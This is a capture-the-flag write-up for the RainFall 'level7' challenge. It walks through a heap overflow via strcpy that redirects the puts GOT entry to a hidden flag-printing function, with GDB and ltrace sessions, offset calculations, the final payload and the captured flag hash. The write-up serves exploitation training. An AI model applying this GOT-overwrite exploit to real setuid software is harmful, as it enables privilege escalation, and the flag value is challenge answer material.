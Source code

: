 We are given a setuid binary that segfaults without parameters and prints ~~ when given two arguments:
```sh
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 arg
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 arg1 arg2
~~
```

From reverse engineering (via `source.c`), we know:
There's a hidden function `m()` that prints the flag.
The vulnerable code uses `strcpy()` on user inputs and allocates memory via `malloc()`.
By carefully crafting our arguments, we can perform a heap-based overwrite of a function pointer.

Step 1: Understand the Vulnerability
Inside `main()`, the code does this (simplified):
```c
int *a = malloc(8);
a[0] = 1;
a[1] = malloc(8);

int *b = malloc(8);
b[0] = 2;
b[1] = malloc(8);
strcpy((char *)a[1], argv[1]);
strcpy((char *)b[1], argv[2]);
```
Here’s what we can exploit:
The `a` and `b` variable here are both storing pointer to another heap allocated pointer.

`strcpy(a[1], argv[1])` will copy beyond the 8-byte buffer, overwriting `b[1]`’s pointer.
`strcpy(b[1], argv[2])` will then write to wherever b[1] now points — which we control.

Goal: Change the `b[1]` address to overwrite a GOT entry (e.g., puts()), replacing it with the address of function `m()` (which prints the flag).

Step 2: Find the Offset

We have 3 ways to find the Offset to know how much bytes we need to write before reaching the `b[1]` address.

1. using a cyclic pattern:
We use a cyclic pattern to discover how many bytes are needed to reach the b[1] pointer:

level7@RainFall:~$ ltrace ./level7 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4"
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---

"7aA6" revert to "6Aa7" is 22th in "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4"
So, after 20 bytes, we reach and control b[1].

2. Using GDB, and memory inspection:

We need to start by calling the program with two distinct arguments.
The first one will be four `A` (`0x41`), and the second one four `B` (`0x42`).

```sh
level7@RainFall:~$ gdb --args ./level7 AAAA BBBB
```

Now, we need to set a breakpointer after all the `strcpy` call.
```
(gdb) set disassembly-flavor intel # Change the output syntax to intel
(gdb) disas main
Dump of assembler code for function main:
# [...]
   0x080485ba <+153>:   mov    DWORD PTR [esp],eax
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    edx,0x80486e9
# [...]
```

So we can add a beakpoint to `main + 161`, and run the program:
```
(gdb) b *main + 161
Breakpoint 1 at 0x80485c2
(gdb) r
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485c2 in main ()
```

We now need to inspect the heap. So for that, we need to get the malloc'd addresses:
```
(gdb) i proc mappings # Get the heap location
process 2934
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
[...]
         0x804a000  0x806b000    0x21000        0x0 [heap]
[...]
(gdb) x/20xw 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
```

Here, we can see our `0x41414141` and `0x42424242`, and also 2 addresses:
- `0x0804a018`
- `0x0804a038`

The second one is the one that interest us. After checking how much bytes separate the `0x41414141`
(first argument), and the second address, we know that we'll need a padding of 20 bytes.

3. Maths:

Okay, so for the third part, you need to understand that malloc will always align its allocations.

Because the binary is a 32 bits binary, all alignment are made on 4 bytes.

Each allocations includes a header of 4 bytes, and a footer of 4 bytes. Which means, our `malloc(8)`
will reserve 16 bytes on the heap.

We need to smash the third allocation, from the second one.
This is an example of the memory, where `H` means `header`, `F` means footer:
```
|      Content   |  Hex  | Dec.
|        H       |  0x00 | 0
|        1       |  0x04 | 4
|       0x14     |  0x08 | 8
|        F       |  0x0c | 12
|        H       |  0x10 | 16
|       AAAA     |  0x14 | 20
|       AAAA     |  0x18 | 24
|        F       |  0x1c | 28
|        H       |  0x20 | 32
|        2       |  0x24 | 36
|       0x30     |  0x28 | 40
|        F       |  0x2c | 44
|        H       |  0x30 | 48
|       BBBB     |  0x34 | 52
|       BBBB     |  0x38 | 56
|        H       |  0x3c | 60
```

As you can see, the first data we have is at the offset 20,
and the address of the second one is located at the ofset 40.
So, we have 20 bytes to fill before writing the `puts` address on the GOT.


Step 3: Locate the GOT Entry for `puts()`
We want to overwrite the GOT entry of `puts()`:
```sh
level7@RainFall:~$ objdump -R level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```


Step 4: Find the Address of `m()`
```
(gdb) info functions m
0x080484f4  m
```
✅ Function m() is at `0x080484f4`.

Step 5: Craft the Exploit
We want to:
Overflow a (first malloc) to overwrite the pointer for `b[1]` (next malloc).
Make `b[1]` point to `puts()` GOT.
When the second `strcpy()` writes, it writes the address of `m()` to that GOT entry.
Next time `puts()` is called, `m()` will run instead — and print the flag.

Final Payload:
```sh
./level7 \
  $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') \
  $(python -c 'print "\xf4\x84\x04\x08"')
```
`\x28\x99\x04\x08` = address of `puts()` GOT entry (`0x08049928`)
`\xf4\x84\x04\x08` = address of `m()` (`0x080484f4`)

Step 6: Exploit and Get the Flag
```sh
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

